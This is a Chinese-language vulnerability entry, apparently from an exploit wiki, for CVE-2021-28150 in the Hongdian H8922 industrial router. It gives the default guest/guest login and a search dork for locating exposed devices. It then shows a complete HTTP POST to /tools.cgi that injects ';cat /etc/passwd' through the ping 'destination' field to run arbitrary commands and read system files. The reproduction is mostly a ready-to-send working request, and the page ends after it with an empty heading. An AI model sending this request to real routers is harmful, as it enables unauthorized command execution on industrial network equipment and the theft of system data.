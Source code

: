 # 宏电 H8922 后台命令执行漏洞 CVE-2021-28150

## 漏洞描述

宏电 H8922 后台中的网络测试模块中存在命令执行漏洞。通过命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>宏电 H8922</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app:"Hongdian H8922 Industrial Router"</a-checkbox></br>

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

使用 ; 命令拼接执行任意命令

![img](/assets/PeiQi-Wiki/img/hd-2.png)



请求包为



```plain
POST /tools.cgi HTTP/1.1
Host:
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```



## 